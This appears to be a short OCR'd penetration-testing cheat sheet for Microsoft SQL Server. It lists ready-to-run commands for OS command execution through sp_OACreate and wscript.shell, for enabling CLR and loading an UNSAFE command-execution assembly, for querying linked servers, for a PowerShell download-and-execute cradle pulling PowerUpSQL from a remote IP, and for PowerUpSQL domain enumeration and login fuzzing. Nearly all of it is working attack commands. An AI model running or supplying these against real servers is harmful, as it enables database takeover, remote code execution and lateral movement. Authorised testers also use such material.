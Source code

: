 sp_OACreate and sp_OAMethod
```sql
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c \"echo Test > C:\\Tools\\file.txt\"';
```

Exec on linked server
```sql
select * from openquery("SERVER", 'select USER_NAME()')
```

Custom assembly from file
```sql
use msdb

EXEC sp_configure 'show advanced options',1
RECONFIGURE

EXEC sp_configure 'clr enabled',1
RECONFIGURE

EXEC sp_configure 'clr strict security', 0
RECONFIGURE

CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;

CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];

EXEC cmdExec 'whoami'
```

Custom assembly from hex
```sql
CREATE ASSEMBLY my_assembly FROM 0x4D7A..... WITH PERMISSION_SET = UNSAFE;
```

Load PowerUpSQL
```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/PowerUpSQL.ps1') | IEX
```

Get all accessible domain MSSQL's
```
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10
```

Enum database users
```powershell
Get-SQLFuzzServerLogin
```

Audit SQL
```powershell
Invoke-SQLAudit -Verbose
```
